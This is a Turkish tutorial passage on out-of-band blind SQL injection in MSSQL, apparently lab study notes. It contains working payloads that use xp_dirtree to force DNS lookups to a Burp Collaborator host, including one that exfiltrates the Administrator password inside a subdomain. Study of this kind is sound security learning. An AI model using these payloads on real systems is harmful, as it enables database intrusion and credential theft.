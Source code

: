 
## Blind SQLi, Out of Band (OAST) :
Bazı web uygulamaları, SQL sorgularını kullanıcı isteğinden sonra senkron bir şekilde değil, arka planda farklı bir iş parçacığı (thread) kullanarak çalıştırır. Bu durumda, uygulama kullanıcının isteğine normal şekilde yanıt verirken, SQL sorgusu arka planda yürütülür. Sorgu SQL Injection'a karşı savunmasız olabilir; fakat:
- Sorgudan veri dönmesi beklenmediği,
- Hata mesajı oluşturmadığı,
- Süre bazlı (time-based) gecikmeye neden olmadığı için
**klasik blind SQL injection teknikleri etkili olmaz.**
Bu gibi durumlarda, **"Out-of-Band (OAST)" teknikleri** kullanılarak saldırı gerçekleştirilebilir. Bu yaklaşımda, saldırganın kontrolündeki bir sunucuya yönlendirilen dış ağ istekleri tetiklenir. SQL sorgusu içine enjekte edilen payload'lar, bu dış istekleri (genellikle DNS veya HTTP) oluşturur. Uygulama tarafından başlatılan bu istekler saldırgan tarafından kaydedilerek sistemin zafiyet içerip içermediği ve hangi verilerin sızdırıldığı analiz edilebilir.

#### Neden DNS?
OAST tekniklerinde en yaygın kullanılan protokol **DNS**'tir. Çünkü:
- DNS istekleri, çoğu ağda çıkış yönünde serbest bırakılmıştır.
- Uygulamanın veya veritabanının DNS çözümlemesi yapmasına engel olan güvenlik duvarı nadiren bulunur.
- DNS üzerinden bilgi dışa aktarımı mümkündür (örnek: tablo isimleri, kullanıcı bilgileri).

**Örnek: MSSQL ile OAST**
Microsoft SQL Server üzerinde aşağıdaki payload, dışa DNS isteği gönderilmesini sağlar:

```sql
'; exec master..xp_dirtree '//örnek.burpcollaborator.net/a'-- 
```
Bu komut, veritabanını şu DNS adresine sorgu göndermeye zorlar: `örnek.burpcollaborator.net`

### Out-of-Band Kanal Üzerinden Veri Sızdırma
Blind SQL Injection zafiyetinin varlığı ve dışa DNS isteği tetiklenebildiği doğrulandıktan sonra, artık bu **OAST** kanalı üzerinden doğrudan veri sızdırmak mümkündür.

Bu teknikle, hassas bir veritabanı bilgisini DNS isteğine gömerek saldırganın kontrolündeki sunucuya göndermek mümkündür. Örnek:
```SQL
'; declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

**Payloadın içeriği :**
1. **Bir değişken tanımlar:** `@p` adında bir `varchar` değişkeni oluşturulur.
2. **Veriyi okur:** `@p` değişkenine "Administrator" kullanıcısının şifresi atanır.
3. **DNS isteği oluşturur:** `xp_dirtree` komutu, `@p` değişkenini içeren bir domain adına sorgu gönderir.
4. **Veri dışa çıkar:** Bu sorgu, Burp Collaborator üzerinden  şekildeki gibi gözlemlenebilir:
	`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

**Sorular ve Açıklamalar :**
1. `xp_dirtree`, Microsoft SQL Server’a özgü bir **extended stored procedure**’dür. Normalde bir dizin içeriğini listelemek için kullanılır. Örneğin:
	`EXEC master..xp_dirtree 'C:\'`
	Yukarıdaki kullanımda ise, saldırgan tarafından veritabanını DNS isteği yapmaya zorlamak için kulllanılır.
2. `@p` Değişkeni ve `varchar(1024)` Ne Anlama Geliyor?
	- `@p` burada bir **değişken**dir. SQL içinde veriyi geçici olarak tutmak için tanımlanır.
	- `varchar` (variable-length character) bir veri türüdür; **değişken uzunlukta metin** tutar. Yani sabit 1024 karakter yer kaplamaz, sadece gerekli kadar yer kullanır.
	- `(1024)` kısmı, bu değişkende tutulabilecek maksimum karakter sayısını belirtir.
3. DNS Üzerinden Veriyi Teker Teker mi Almalıyız? Toplu Alırsak Ne Olur?
	Evet, **DNS üzerinden veri sızdırırken sınırlamalar** vardır:
	- **DNS alt alan adları (subdomain) genelde maksimum 253 karakter** olabilir. (Her etiket 63 karakterle sınırlıdır, örn. `password1.example.com`)